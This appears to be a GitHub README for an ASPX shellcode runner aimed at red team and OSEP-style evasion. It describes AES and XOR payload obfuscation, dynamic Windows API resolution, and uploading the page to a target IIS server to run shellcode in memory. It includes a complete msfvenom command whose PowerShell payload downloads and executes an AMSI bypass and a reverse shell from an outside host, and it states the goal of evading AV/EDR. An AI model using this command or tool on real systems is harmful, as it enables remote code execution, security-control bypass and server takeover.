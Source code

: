 # ASPX Ultra-Stealth Shellcode Runner (OSEP Ready)

This project provides an **advanced ASPX shellcode runner** designed for **red team operations** and **OSEP-level** evasion techniques.  
It focuses on executing AES-256 encrypted and XOR-obfuscated shellcode in-memory using dynamic API resolution and minimal static indicators.

---

## 🚀 Features

- AES-256-CBC encryption of the shellcode
- XOR additional obfuscation
- Dynamic resolution of:
  - `LoadLibraryA`
  - `GetProcAddress`
  - `VirtualAlloc`
  - `CreateThread`
- Randomized chunked memory writing
- No direct import of Windows API functions
- No suspicious static strings
- Minimal signature footprint
- Designed for Red Team / OSEP practice labs
- Compatible with Windows Server and IIS environments

---

## 📚 How It Works

1. Shellcode is encrypted with AES-256 and then XOR-ed with a random byte.
2. The encrypted data is Base64-encoded and fragmented into small pieces.
3. At runtime:
   - Base64 strings are reconstructed.
   - XOR obfuscation is reversed.
   - AES decryption restores the original shellcode.
4. The shellcode is written into memory in random-sized chunks.
5. `CreateThread` is dynamically called to execute the payload.

---

## 🛠 Usage Instructions

### 1. Generate Your Shellcode

The payload used can vary depending on the engagement.

An example command used in this project is:

```bash
msfvenom -p windows/x64/exec CMD="powershell -ExecutionPolicy Bypass -NoProfile -Command \"Invoke-Expression (Invoke-WebRequest -Uri 'http://192.168.1.130/amsi.txt' -UseBasicParsing | Select-Object -ExpandProperty Content); \$scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri 'http://192.168.1.130/shell.ps1' -UseBasicParsing).Content); Invoke-Expression \$scriptContent\"" EXITFUNC=thread -f raw > shellcode.bin
```

> **Explanation:**  
> This payload first downloads and executes an **AMSI bypass** (`amsi.txt`) and then retrieves an **obfuscated reverse shell** (`shell.ps1`) to achieve maximum evasion against AV/EDR solutions.

---

### 2. Encrypt and Fragment the Shellcode

Use the provided Python script:

```bash
python3 AES_XOR_Encryptor.py
```

This script will:

- Encrypt your shellcode with AES-256-CBC.
- Apply XOR obfuscation.
- Base64 encode and fragment the data.
- Copy the generated ASPX code fragment to your clipboard.

---

### 3. Update the ASPX Runner

Paste the generated fragment inside the ASPX shellcode runner:

```csharp
// ====== PASTE HERE the generated fragment from AES_XOR_Encryptor.py ======
string[] x1 = { "..." };
string[] x2 = { "..." };
string[] x3 = { "..." };
byte xorKey = 0x5A;
```

---

### 4. Deploy

- Upload the `ASPX_Shellcode_Runner.aspx` file to a target IIS webserver.
- Access the page to trigger in-memory shellcode execution.

---

## ⚠️ Disclaimer

This project is intended **for educational purposes only**.  
Usage of this code in unauthorized environments is **strictly prohibited**.

The author assumes no responsibility for any misuse or damage caused by this tool.

---

## 📋 Notes

- Tested on Windows 10 with IIS 10.
- Ensure that your IIS server allows ASP.NET page execution.
- Recommended for controlled lab environments (e.g., OSEP, red team simulations).

---

## 📎 Files Included

| File | Description |
|:---|:---|
| `AES_XOR_Encryptor.py` | Python script to encrypt, obfuscate and fragment shellcode for the ASPX runner. |
| `ASPX_Shellcode_Runner.aspx` | Final ASPX page that dynamically decrypts, loads, and executes shellcode. |

---

